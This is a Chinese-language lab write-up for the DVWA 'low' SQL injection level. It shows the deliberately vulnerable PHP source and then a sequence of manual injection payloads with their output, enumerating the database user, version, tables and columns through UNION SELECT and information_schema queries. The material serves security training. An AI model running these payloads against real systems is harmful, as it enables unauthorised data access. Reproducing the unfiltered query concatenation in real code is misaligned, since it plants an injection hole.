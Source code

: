 ## SQL注入  

### low  

```php  
<?php  
  
if( isset( $_REQUEST[ 'Submit' ] ) ) {  
    // Get input  
    $id = $_REQUEST[ 'id' ];  
  
    // Check database  
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";  
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );  
  
    // Get results  
    while( $row = mysqli_fetch_assoc( $result ) ) {  
        // Get values  
        $first = $row["first_name"];  
        $last  = $row["last_name"];  
  
        // Feedback for end user  
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";  
    }  
  
    mysqli_close($GLOBALS["___mysqli_ston"]);  
}  
  
?>  
```

没有任何过滤直接手工注入  

```  
# 判断是否为注入  
?id=1' or '1'='1  
?id=1' or '1'='2  
  
# 判断字段长度（2 正常，3 异常）  
?id=1' order by 2 --   
?id=1' order by 3 --  
  
# 确定回显点  
?id=1' union select 111,222 --   
  
# 用户名和数据库名称  
?id=1' union select user(),database() --   
-- output：admin@localhost、dvwa  
  
# 查看当前用户和 mysql 版本  
?id=1' union select current_user(),version() --   
-- output：First name: admin@%、 5.5.47-0ubuntu0.14.04.1  
  
# 爆表名  
?id=1' union select 1,group_concat(table_name) from information_schema.tables where table_schema =database() --   
-- output：guestbook,users  
  
# 爆列名（两种办法，加引号或者十六进制编码）  
?id=1' union select 1,group_concat(column_name) from information_schema.columns where table_name =0x7573657273 --   
```